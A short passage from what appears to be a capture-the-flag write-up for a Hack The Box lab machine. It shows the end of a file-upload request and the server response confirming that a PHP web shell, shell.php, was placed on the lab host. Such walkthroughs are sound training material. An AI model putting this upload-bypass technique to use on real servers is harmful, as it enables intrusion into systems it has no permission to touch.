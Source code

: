 ```shell

------WebKitFormBoundaryDBJuJf9TC23GKTvR--

```

After we `forwarded` the `request` we received the `path` on which the file was accessible with the expected extension of `.php`.

```shell
HTTP/1.1 200 OK
Server: nginx/1.22.1
Content-Type: application/json
Connection: keep-alive
Cache-Control: no-cache, private
Date: Sun, 04 May 2025 09:33:03 GMT
Set-Cookie: XSRF-TOKEN=eyJpdiI6ImZiUlhQWCtlZjc5cUs3Zmw2Sk96cFE9PSIsInZhbHVlIjoiQ2RhR0diK2FZanNyemVmWDczdzBsaWpaSXE5NlFrWHpmaDZ6NHJBMFM5S3JFUStJQWs2N0VHZmQvbjlBWTRMOE15UURZdnNMekg1YUQvYzZCSzJpTE53WnpIaS9PbzhzVGpOVWtQUWJTYVhOY2tCS1lUMDFLKzJNMUV0cWtQemYiLCJtYWMiOiIwZGJiYzQ4NDY0NThhOWY3MDU1NDE0YWZmZTVmZDBjMjkyNTFhNjIxZmIyMDAxYWE0OWI2NWVjYzg0MGE4ZjEzIiwidGFnIjoiIn0%3D; expires=Sun, 04 May 2025 11:33:03 GMT; Max-Age=7200; path=/; samesite=lax
Set-Cookie: laravel_session=eyJpdiI6InJ2Z0pDbHVXWTh1cHVYcVlLRUF2aEE9PSIsInZhbHVlIjoiUDNjU3RTV3MxUTZxMS95WERTbFhoU3cvR0oxMmR3UkkrT1FqSnp6b3E5ZTJXc2JnekxkdkoxVVJ4SmNzMjdmOW11N2JJWXFaWDgvMUNISThYMDNLdFlCb0F6RjdpQ2dqSmpya0pPWUt6TFpGZmttSGdxMEM4ZnZHb3B3cEFkSjIiLCJtYWMiOiIwMDEwOTA3MzM2ZGE2ODY5NGZhZGQzMzA1N2E3NjlhN2MxZTNlN2UxN2Y5ZDIzMjY2YWQ5MzVjODZhMWVkMjM3IiwidGFnIjoiIn0%3D; expires=Sun, 04 May 2025 11:33:03 GMT; Max-Age=7200; path=/; httponly; samesite=lax
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
Content-Length: 126

{"url":"http:\/\/environment.htb\/storage\/files\/shell.php","uploaded":"http:\/\/environment.htb\/storage\/files\/shell.php"}
```

![](images/2025-05-04_11-26_80_webshell_upload.png)
